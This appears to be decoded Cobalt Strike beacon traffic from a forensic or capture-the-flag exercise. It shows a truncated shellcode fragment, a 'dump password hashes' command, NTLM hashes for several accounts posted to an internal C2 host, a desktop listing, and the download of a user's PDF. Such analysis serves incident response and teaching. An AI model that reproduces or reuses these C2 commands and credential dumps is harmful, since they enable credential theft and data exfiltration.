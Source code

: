 ```
Length raw data: 82528
Timestamp: 1636630652 20211111-113732
Data size: 82501
Command: 44 UNKNOWN
 Arguments length: 82432
 b'MZARUH\x89\xe5H\x81\xec \x00\x00\x00H\x8d\x1d\xea\xff\xff\xffH\x81\xc3T\x16\x00\x00\xff\xd3H\x89\x
 MD5: 18f9b2ca9e8916b1c3246a4355c1b60f
Command: 40 UNKNOWN
 Arguments length: 53
 Unknown1: 0
 Unknown2: 1391256
 Pipename: b'\\\\.\\pipe\\f541a074'
 Command: b'dump password hashes'
 b''

Packet number: 142
HTTP request POST
http://192.168.1.9/submit.php?id=542210184
Length raw data: 548
Counter: 4
Callback: 21 BEACON_OUTPUT_HASHES
b'Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::\nDefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::\nGuest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::\nJohn Doe:1001:aad3b435b51404eeaad3b435b51404ee:37fbc1731f66ad4e524160a732410f9d:::\nnpatrick:1002:aad3b435b51404eeaad3b435b51404ee:3c7c8387d364a9c973dc51a235a1d0c8:::\nWDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:c81c8295ec4bfa3c9b90dcd6c64727e2:::\n'
...
Packet number: 221
HTTP request POST
http://192.168.1.9/submit.php?id=542210184
Length raw data: 324
Counter: 6
Callback: 22 TODO
b'\xff\xff\xff\xfe'
----------------------------------------------------------------------------------------------------
C:\Users\npatrick\Desktop\*
D	0	11/11/2021 03:26:59	.
D	0	11/11/2021 03:26:59	..
F	5175	11/11/2021 03:24:13	cheap_spare_parts_for_old_blimps.docx
F	282	11/10/2021 07:02:24	desktop.ini
F	24704	11/11/2021 03:22:16	gogglestown_citizens_osint.xlsx
F	62409	11/11/2021 03:20:47	orders.pdf

----------------------------------------------------------------------------------------------------

Packet number: 234
HTTP response (for request 231 GET)
Length raw data: 80
Timestamp: 1636630835 20211111-114035
Data size: 44
Command: 11 DOWNLOAD
 Arguments length: 36
 b'C:\\Users\\npatrick\\Desktop\\orders.pdf'
 MD5: b25952a4fd6a97bac3ccc8f2c01b906b

Packet number: 251
HTTP request POST
http://192.168.1.9/submit.php?id=542210184
Length raw data: 62588
```